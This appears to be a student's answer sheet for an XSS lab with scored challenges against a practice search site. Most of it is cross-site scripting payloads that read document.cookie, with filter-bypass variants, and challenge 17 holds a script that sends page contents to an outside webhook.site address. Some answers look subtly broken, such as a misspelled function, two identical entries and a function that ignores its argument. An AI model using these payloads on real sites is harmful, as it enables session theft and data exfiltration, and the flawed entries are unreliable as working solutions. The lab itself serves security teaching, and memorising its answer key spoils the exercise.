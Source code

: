 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>succes(document.cookie)</script>
```

# 2. No Script Allowed (3 points)

```
<script><script>success(document.cookie)</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
<scrscriptipt>success(document.cookie)</scrscriptipt>
```

# 4. An Open-and-Shut Case (3 points)

```
<SCRIPT>success(document.cookie)</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
<ScRipT>success(document.cookie)</ScRipT>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
<a href="java:void(0)" onclick="java:success(document.cookie)">Ən yeni meyxanalara qulaq asmaq üçün tıkla</a>
```

# 7. Between a Rock And a Hard Place (3 points)

```
<a href="java:void(0)" onclick="java:success(document.cookie)">Ən yeni meyxanalara qulaq asmaq üçün tıkla</a>
```

# 8. Angle of Death (6 points)

Attack input:

```
<<script>>success(document.cookie)</script>
```

Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.

  // q = ???
     q = q.replace(/</i, '')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
<iframe src="#" svg onload=success(document.cookie)>
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
<iframe src="#" svg onload=success(document.cookie)>
```

Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 12. When All is Said and Done (6 points)

Attack input:

```
'><script>success(document.cookie)</script>
```

Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
http://caloogle.xyz:4140/search?q=Meyxana&lang=es" onload=success(document.cookie)
```

**This should be a URL!**


# 15. The Early Bird Catches the Worm (3 points)

```
</Script><script>success(document.cookie)</script>
```

# 16. Tying Up Loose Ends (3 points)

```
<<//Script><script>success(document.cookie)<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

js:
```
function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
```

```
<script>/*success(document.cookie)*/</script>
```

# 18. Congrats

N/A

# Əlavə qeydlər


Əlavə qeydlərinizi yazın
